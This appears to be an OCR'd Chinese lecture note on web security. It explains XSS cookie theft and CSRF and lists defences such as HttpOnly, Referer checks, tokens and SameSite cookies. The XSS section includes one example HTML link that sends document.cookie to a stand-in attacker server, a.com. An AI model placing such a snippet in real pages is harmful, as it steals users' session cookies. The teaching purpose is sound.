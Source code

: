 
#### XSS

当⽹站允许使用 javascript操作cookie的时候，就会发生攻击者发布恶意代码进行攻击。

简单举例：

```html
<a href="#" onclick="location.href='http://a.com?cookie='+document.cookie">click</a> 
```

点击后，这个⽹站⽤户的 cookie信息就会被发送到`a.com`——攻击者的服务器。、

可以通过cookie的`HttpOnly`属性，设置后javascript将不能操作 cookie。

> Apache HTTP Server 2.2.X 多个版本没有严格限制HTTP请求头信息，当头信息超过 LimitRequestFieldSize ⻓度时，服务器返回 400(Bad Request) 错误，并在返回信息中将出错的请求头内容输出(包含请求头里的HttpOnly Cookie )，攻击者可以利用这个漏洞获取Cookie。 



#### CSRF

是⼀种冒充受信任⽤用户，向服务器发送⾮预期请求的攻击⽅式。

攻击原理理及过程如下：

![CSRF](/typora/讲义/前端缓存.assets/image-20190418204335052.png)

可以有以下应对方法：

1. 验证 HTTP Referer，首部包含了当前请求⻚面的来源⻚面的地址。

   在以下两种情况下， Referer 不会被发送：

   - 来源⻚面采用的协议为表示本地文件的 "file" 或者 "data" URI；

   - 当前请求⻚面采用的是⾮安全协议，而来源⻚面采用的是安全协议（HTTPS）。

   如果 Referer 是其他⽹站的话，则有可能是⿊客的 CSRF 攻击，拒绝该请求。这种方法显⽽易见的好处就是简单易行。不过此方法是把安全性都依赖于第三方（即浏览器）来保障，从理论上来讲并不安全。对于某些浏览器，有一些⽅法可以篡改 Referer 值，且⽤户⾃己可以设置浏览器使其在发送请求时不再提供 Referer。

2. 验证码

    强制用户在请求前进行人机交互，攻击门槛被提高。

    即使有验证码，当⿊客⽬光集中到验证码的时候，验证码也能被骗走。

3. 添加 token 并验证

    可以在 HTTP 请求中以参数的形式加入一个随机产⽣的 token，并在服务器端建立一个拦截器来验证token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。

    这种⽅法要比检查 Referer 安全一些。但是在一个网站中，要对于每⼀个请求都加上 token 是麻烦的，还有一个缺点是难以保证 token 本身的安全。

4. 在HTTP 头中⾃定义属性并验证

    其实也是使用token 并进行验证，这里并不是把 token 以参数的形式置于 HTTP 请求之中，⽽是把它放到HTTP头中⾃定义的属性里。

    这样解决了在请求中加⼊ token 的不便，同时，请求的地址不会被记录到浏览器的地址栏，也不用担心token 会透过 Referer 泄露到其他网站中去。

5. `SameSite=Strict / Lax`

    这是`Set-Cookie`指令的可选参数，允许服务器设定一则cookie不随着跨域请求一起发送，这样可以在⼀定程度上防范 CSRF。
